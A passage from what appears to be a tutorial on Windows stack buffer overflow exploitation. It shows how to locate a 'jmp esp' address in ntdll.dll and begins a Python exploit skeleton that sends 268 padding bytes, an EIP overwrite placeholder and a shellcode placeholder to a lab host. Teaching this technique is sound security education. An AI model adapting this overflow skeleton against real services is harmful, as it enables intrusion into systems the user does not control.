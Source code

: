 ![Locating memory address that contains JMP ESP instruction](../../../.gitbook/assets/finding-jmp-esp.gif)

{% hint style="warning" %}
Memory address for instruction set `jmp esp` on your system may be different as ntdll.dll is updated between different Windows versions.
{% endhint %}

{% hint style="info" %}
Remember the memory address of `jmp esp` - `7798BD1B` - we will need it soon for the exploit code.
{% endhint %}

## Exploit Skeleton

Let's now build a quick python exploit code skeleton:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"RETN"

# shellcode
buf += b"SHELLCODE"

```